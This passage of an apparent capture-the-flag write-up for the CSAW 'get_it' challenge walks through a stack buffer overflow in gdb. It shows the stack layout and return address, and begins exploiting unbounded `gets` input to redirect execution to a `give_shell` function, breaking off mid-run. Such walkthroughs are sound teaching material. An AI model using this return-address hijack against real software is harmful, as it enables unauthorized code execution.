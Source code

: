 Breakpoint 1, 0x00000000004005f6 in main ()
```

Now we will examine the stack in gdb.
The command `x/6xg $rbp - 0x20` prints 48 bytes in the memory location specified by `rbp-32`.
```
(gdb) x/6xg $rbp - 0x20
0x7fffffffe130: 0x4141414141414141
0x7fffffffe138: 0x4141414141414141
0x7fffffffe140: 0x4141414141414141
0x7fffffffe148: 0x0041414141414141
0x7fffffffe150: 0x0000000000400600
0x7fffffffe158: 0x00007ffff7dff223
```

This lines up with what we had earlier:
```
0x7fffffffe130: 0x4141414141414141 // The buffer            @ RBP - 0x20
0x7fffffffe138: 0x4141414141414141
0x7fffffffe140: 0x4141414141414141
0x7fffffffe148: 0x0041414141414141
0x7fffffffe150: 0x0000000000400600 // saved stack pointer   @ RBP
0x7fffffffe158: 0x00007ffff7dff223 // return address        @ RBP + 8
```

You can print `rbp` in gdb to see that this does in fact line up with our expectations:
```
(gdb) print $rbp
$1 = (void *) 0x7fffffffe150
```

Now, still in gdb, if you run the `nexti` command, you will step forward two instructions and return from `main`. Then we see that the address that is being executed is the exact same as the return address specified.
```
(gdb) nexti
0x00000000004005f7 in main ()
(gdb) nexti
0x00007ffff7dff223 in __libc_start_main () from /usr/lib/libc.so.6
```

## Exploitation
Now, back to the beginning. We want to jump to the `give_shell` function. All we have to do is change the return address to the address of `give_shell.` We can find the address of `give_shell` in gdb with the `print` command:
```
(gdb) p give_shell 
$1 = {<text variable, no debug info>} 0x4005b6 <give_shell>
```

So, since `gets` will read an unlimited amount of data, we can overwrite the return address to whatever we want. We can again see this in gdb:
```
(gdb) break * main+47
Breakpoint 1 at 0x4005f6
(gdb) run
Starting program: /home/nat/workspace/2018-2019/csaw/get_it/get_it 
Do you gets it??
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBCCCCCCCC
